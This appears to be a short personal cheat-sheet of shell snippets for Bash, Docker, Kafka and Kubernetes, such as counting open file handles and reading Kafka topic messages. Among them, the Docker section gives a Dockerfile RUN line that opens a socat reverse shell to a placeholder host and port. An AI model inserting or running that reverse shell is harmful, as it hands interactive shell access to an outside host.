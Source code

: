 Todo: Actually find the various places I've stored them and put them in here instead
## Bash
#### Open file handle counts
```
sudo lsof | awk '{ print $2, $9 }' | sort | uniq -c | sort -n | tail -20
```

## Docker
#### Reverse shell
```
RUN socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host>:<port>
```
#### Join container network namespace for troubleshooting
```
docker run -it --net container:<hash> nicolaka/netshoot
```

## Kafka
#### Print the last 2 messages from a topic
```
:; kafkacat -C -b <broker> -t <topic> -p 0 -o -2 -e
```

## Kubernetes
#### Replace configmaps which aren't actual config maps
```
:; kubectl create configmap <MAP_NAME> --from-file=<DIR_OF_CONFIGS> -o yaml --dry-run | kubectl replace -f -
```


